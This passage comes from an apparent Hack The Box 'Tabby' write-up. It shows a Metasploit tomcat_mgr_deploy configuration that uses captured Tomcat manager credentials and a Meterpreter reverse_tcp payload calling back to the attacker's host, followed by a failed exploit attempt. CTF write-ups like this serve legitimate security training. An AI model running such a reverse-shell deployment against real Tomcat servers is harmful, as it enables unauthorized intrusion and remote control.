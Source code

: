 I used the Manager Deploy Module.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting      Required  Description
   ----          ---------------      --------  -----------
   HttpPassword  $3cureP4s5w0rd123!   no        The password for the specified username
   HttpUsername  tomcat               no        The username to authenticate as
   PATH          /host-manager  yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.194         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080                 yes       The target port (TCP)
   SSL           false                no        Negotiate SSL/TLS for outgoing connections
   VHOST                              no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Attempting to automatically select a target...
[-] Failed: Error requesting /host-manager/serverinfo
[-] Exploit aborted due to failure: no-target: Unable to automatically select a target
[*] Exploit completed, but no session was created.
```

It looking for `serverinfo` file which is missing.

I google about its location and found it.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tabby/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tabby/Untitled%207.png)

